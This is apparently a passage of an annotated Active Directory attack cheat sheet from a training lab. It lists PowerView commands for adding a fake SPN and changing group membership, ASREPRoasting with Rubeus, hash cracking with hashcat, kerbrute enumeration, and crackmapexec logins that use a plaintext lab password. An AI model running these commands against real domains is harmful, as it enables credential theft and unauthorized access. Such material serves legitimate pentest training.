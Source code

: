 > PowerView tool used to view the members of a specific security group (`Help Desk Level 1`) and output only the username of each member (`Select MemberName`) of the group from a Windows-based host.

`Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose`

> PowerView tool used create a fake `Service Principal Name` given a sepecift user (`adunn`) from a Windows-based host.

`Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose`

> PowerView tool used to remove the fake `Service Principal Name` created during the attack from a Windows-based host.

`Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose`

> PowerView tool used to remove a specific user (`damundsent`) from a specific security group (`Help Desk Level 1`) from a Windows-based host.

`ConvertFrom-SddlString`

> PowerShell cmd-let used to covert an `SDDL string` into a readable format. Performed from a Windows-based host.

**ASREPRoasting**

`Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl`

> PowerView based tool used to search for the `DONT_REQ_PREAUTH` value across in user accounts in a target Windows domain. Performed from a Windows-based host.

`.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat`

> Uses `Rubeus` to perform an `ASEP Roasting attack` and formats the output for `Hashcat`. Performed from a Windows-based host.

`hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt`

> Uses `Hashcat` to attempt to crack the captured hash using a wordlist (`rockyou.txt`). Performed from a Linux-based host.

`kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt`

> Enumerates users in a target Windows domain and automatically retrieves the `AS` for any users found that don't require Kerberos pre-authentication. Performed from a Linux-based host.

**Credentialed Enumeration**

`xfreerdp /u:forend@inlanefreight.local /p:Klmcargo2 /v:172.16.5.25`

> Connects to a Windows target using valid credentials. Performed from a Linux-based host.

`sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users`

> Authenticates with a Windows target over `smb` using valid credentials and attempts to discover more users (`--users`) in a target Windows domain. Performed from a Linux-based host.

`sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups`

> Authenticates with a Windows target over `smb` using valid credentials and attempts to discover groups (`--groups`) in a target Windows domain. Performed from a Linux-based host.
